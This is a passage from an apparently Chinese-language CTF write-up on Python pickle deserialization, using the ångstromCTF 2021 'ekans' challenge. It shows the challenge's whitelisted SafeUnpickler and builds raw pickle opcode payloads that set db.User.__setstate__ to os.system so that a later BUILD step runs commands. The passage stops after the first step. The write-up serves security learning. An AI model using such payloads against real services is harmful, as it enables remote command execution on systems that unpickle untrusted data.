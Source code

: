 具体的利用流程如下：
1. 导入一个已有的类并且将其 `__setstate__` 设置为危险函数，例如 os.system
2. 实例化这个类
3. 向栈上压入参数，然后执行 BUILD 操作触发 load_build 中的方法调用。

下面我们一步一步来构造 payload：

测试环境为一个 db.py，其中包含了一个 User 类。如下的代码取自 ångstromCTF 2021 ekans
```py
import pickle
import base64
import io
import os

POKEMON = {id: (os.environ.get('FLAG', 'flag{TEST}') if id == 1337 else 'EKANS') for id in range(2000)}
USERS = {'guest': 'guest', 'PokeMaster3000': os.environ.get('ADMIN_PASSWORD', '<secret>')}
ADMINS = ['PokeMaster3000']

class User:
	admin = False

	def __init__(self, username='guest', password='guest'):
		self.username = username
		self.password = password
		if username in ADMINS: self.admin = True

	def is_admin(self): return self.authenticated() and self.admin

	def authenticated(self): return self.password == USERS.get(self.username)

class SafeUnpickler(pickle.Unpickler):
	def find_class(self, module, name):
		if module == "db" and name == "User": return User
		raise pickle.UnpicklingError(f"HACKING DETECTED")

load_user = lambda request: SafeUnpickler(io.BytesIO(base64.b64decode(request.cookies['user'].encode('utf-8')))).load()
```

#### 第一步：修改已有类的 `__setstate__`
在前面利用代码对象篡改函数时，我们使用如下的 payload 对某个类的属性进行篡改：
```py
p = GLOBAL + b'__main__\nSnakeWindow\n' + \
    NONE + \
    MARK + \
        UNICODE + b'__code__\n' + \
        UNICODE + b'bbbb\n' + \
        DICT + \
    TUPLE2 + \
    BUILD + \
    STOP
```
同样的，这里可以编写类似的 payload 修改 db.User 的 `__setstate__` 属性。
```py
p = PROTO + b'\x04' + \
    GLOBAL + b'db\nUser\n' + \
    NONE + \
        MARK + \
            UNICODE + b'__setstate__\n' + \
            GLOBAL + b'os\nsystem\n' + \
            DICT + \
        TUPLE2 + \
    BUILD + \
    STOP
```
